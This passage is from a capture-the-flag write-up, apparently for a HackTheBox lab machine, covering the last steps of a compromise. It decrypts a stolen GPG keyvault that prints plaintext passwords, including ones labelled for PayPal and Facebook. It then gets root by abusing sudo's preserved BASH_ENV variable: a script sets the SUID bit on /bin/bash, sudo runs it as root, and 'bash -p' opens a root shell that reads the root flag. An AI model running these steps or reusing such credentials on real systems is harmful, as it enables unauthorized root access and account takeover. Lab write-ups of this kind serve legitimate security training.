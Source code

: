 After transferring the .gnupg directory, I can replace it on my own machine and decrypt it using gpg -d.

```bash
└─$ gpg -d keyvault.gpg       
gpg: WARNING: unsafe permissions on homedir '/home/kali/.gnupg'
gpg: encrypted with rsa2048 key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

We log in with SSH and get the user flag.
<img width="2171" height="166" alt="2025-08-16 165427" src="https://github.com/user-attachments/assets/1efba523-d5ed-4422-bbe2-0a7bb1340818" />

## Privilege Escalation

Running sudo -l, we see we can run systeminfo as root..

```bash
hish@environment:~$ sudo -l
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
hish@environment:~$ 
```

Analyzing the script, I noticed sudo keeps ENV/BASH_ENV (env_keep+="ENV BASH_ENV"). Because systeminfo is a bash script, I can set BASH_ENV to a file I control and it gets sourced as root when running sudo /usr/bin/systeminfo—this is an environment-variable (BASH_ENV) abuse.

1. I will create a root.sh bash script.
```bash
bash-5.2# cat root.sh
#!/bin/bash

chmod +s /bin/bash
```
2. set permessions to 777 for everyone.

```bash
chmod 777 root.sh
```

3. Execute the systeminfo binary with changed BASH_ENV we created.
```bash
sudo BASH_ENV=root.sh /usr/bin/systeminfo
```

4. Start bash in privileged mode
```bash
/bin/bash -p
```

now we are run and can grap a flag.

```bash
bash-5.2# cat /root/root.txt
5fd867a2739cd7377ece1b5717f25171
```

Machine rooted.
